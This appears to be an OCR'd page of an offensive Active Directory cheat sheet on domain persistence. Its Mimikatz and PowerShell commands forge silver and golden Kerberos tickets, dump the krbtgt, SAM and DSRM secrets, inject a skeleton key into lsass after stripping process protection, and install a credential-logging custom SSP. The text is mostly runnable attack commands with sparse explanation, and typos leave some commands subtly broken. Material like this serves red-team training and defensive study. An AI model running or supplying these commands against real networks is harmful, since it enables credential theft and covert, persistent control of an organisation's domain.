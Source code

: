 Using hash of the Domain Controller computer account, below command provides access to shares on the DC
Invoke-Mimikatz -Command '"kerberos::golden /domain:subdomain.domain.local /sid:sid:S-1-5-21-268341927-4156871508-1792461683 /target:dc.subdomain.domain.local /service:CIFS /rc4:a9b30e5b0dc865eadcea9411e4ade72d /user:Administrator /ptt'

4.3 Domain Persistence: Golden Ticket

Invoke-Mimikatz -Command '"kerberos::golden /User:Adminsitrator /domain:sub.domain.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt'

Execute mimikatz on DC as DA to get krbtgt hash
	Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dc
 
4.4 Domain Persistence: Skeleton Key

Inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required

Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dc


In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
	mimikatz # privilege:debug
 	mimikatz # !+
	mimikatz # !processprotect /process:lsass.exe /remove
	mimikatz # misc::skeleton
	mimikatz # !-
 
 IT'S VERY NOISY!

4.5 Domain Persistence: DSRM

- Dump DSRM password (needs DA privs)
	Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dc
  
- the Logon Behavior for the DSRM account needs to be changed before we can use its hash
	Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

	Enter-PSSession -Computername dcorp-dc Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 
  
4.6 Domain Persistence: Custom SSP

- Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:
	$packages = Get-ItemProperty HTKLM:\System\CurrentControlSet\Control\Lsa\OSConfig \ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
	$packages += "mimilib"
	Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' - Values $packages
	Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

- Using mimikatz, inject into lsass (Not stable with server 2016)
	Invoke-Mimikatz -Command '"misc::memssp"'
